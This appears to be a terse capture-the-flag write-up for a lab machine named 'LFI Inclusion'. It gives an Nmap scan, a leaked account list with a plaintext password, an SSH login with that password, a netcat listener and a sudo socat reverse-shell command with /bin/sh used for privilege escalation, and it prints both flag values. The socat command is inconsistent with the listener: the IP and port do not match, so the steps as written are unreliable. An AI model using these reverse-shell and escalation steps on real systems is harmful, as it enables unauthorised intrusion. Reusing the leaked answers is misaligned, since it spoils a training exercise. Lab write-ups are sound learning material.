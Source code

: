 
# BOX IP : 10.10.244.211

# Machine Name : LFI Inclusion

# Nmap 
Nmap scan report for 10.10.244.211  
Host is up (0.42s latency).  
Not shown: 999 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)  
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)  
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 102.00 seconds  


# ACCOUNT LIST
root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
...
falconfeast:rootpassword  
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin  
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false  

user.flag : 0989655118397345799  


# foot hold
ssh falconfeast@10.10.244.211
password : rootpassword


# macOS Reverse Shell nc command
nc -l 9999

# Privilege Escalate
RHOST : MyIP
RPORT : nc listen port

sudo socat tcp-connect:10.10.244.211:999 exec:/bin/sh,pty,stderr,setsid,sigint,sane

root.flag : 42964104845495153909